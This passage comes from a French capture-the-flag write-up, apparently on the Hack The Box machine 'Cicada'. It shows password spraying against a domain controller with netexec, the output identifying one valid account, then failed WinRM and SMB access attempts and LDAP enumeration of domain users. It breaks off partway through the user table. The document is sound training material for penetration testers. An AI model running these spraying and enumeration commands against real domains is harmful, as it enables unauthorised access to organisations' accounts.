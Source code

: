 Nous testons ensuite les paires identifiants / mot de passe :

```bash
netexec ldap cicada.htb -u users.txt -p 'Cicada[...expurgé...]p!8' --continue-on-success
```

{% capture spoil %}
SMB         10.10.11.35     445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
LDAP        10.10.11.35     389    CICADA-DC        [-] cicada.htb\john.smoulder:Cicada[...expurgé...]p!8
LDAP        10.10.11.35     389    CICADA-DC        [-] cicada.htb\sarah.dantelia:Cicada[...expurgé...]p!8
LDAP        10.10.11.35     389    CICADA-DC        [+] cicada.htb\michael.wrightson:Cicada[...expurgé...]p!8
LDAP        10.10.11.35     389    CICADA-DC        [-] cicada.htb\david.orelious:Cicada[...expurgé...]p!8
LDAP        10.10.11.35     389    CICADA-DC        [-] cicada.htb\emily.oscars:Cicada[...expurgé...]p!8
{% endcapture %}
{% include elements/spoil.html %}

Le compte de **Michael Wrightson** répond positivement à la requête, indiquant que le compte n'a pas changé de mot de passe et est donc vulnérable.

## Escalade horizontale

Nous tentons d'accéder aux diverses ressources avec les identifiants découverts, sans succès pour le moment :

```bash
evil-winrm -i cicada.htb -u michael.wrightson  -p 'Cicada[...expurgé...]p!8'
[...expurgé pour brièveté...]
Error: An error of type WinRM::WinRMAuthorizationError happened, message is WinRM::WinRMAuthorizationError
Error: Exiting with code 1
```

```bash
smbclient //cicada.htb/DEV/ -U michael.wrightson
Password for [WORKGROUP\michael.wrightson]:
Try "help" to get a list of possible commands.
smb: \> ls
NT_STATUS_ACCESS_DENIED listing \*
```

Nous continuons donc d'énumérer l'Active Directory et observons un mot de passe écrit en clair pour un autre utilisateur **David Orelious**

```bash
netexec ldap cicada.htb -u michael.wrightson -p 'Cicada[...expurgé...]p!8' --users
```

{% capture spoil %}
SMB         10.10.11.35     445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
LDAP        10.10.11.35     389    CICADA-DC        [+] cicada.htb\michael.wrightson:Cicada[...expurgé...]p!8
LDAP        10.10.11.35     389    CICADA-DC        [*] Enumerated 8 domain users: cicada.htb
LDAP        10.10.11.35     389    CICADA-DC        -Username-                    -Last PW Set-       -BadPW- -Description-
LDAP        10.10.11.35     389    CICADA-DC        Administrator                 2024-08-26 20:08:03 0       Built-in account for administering the computer/domain
LDAP        10.10.11.35     389    CICADA-DC        Guest                         2024-08-28 17:26:56 0       Built-in account for guest access to the computer/domain
LDAP        10.10.11.35     389    CICADA-DC        krbtgt                        2024-03-14 11:14:10 2       Key Distribution Center Service Account
LDAP        10.10.11.35     389    CICADA-DC        john.smoulder                 2024-03-14 12:17:29 7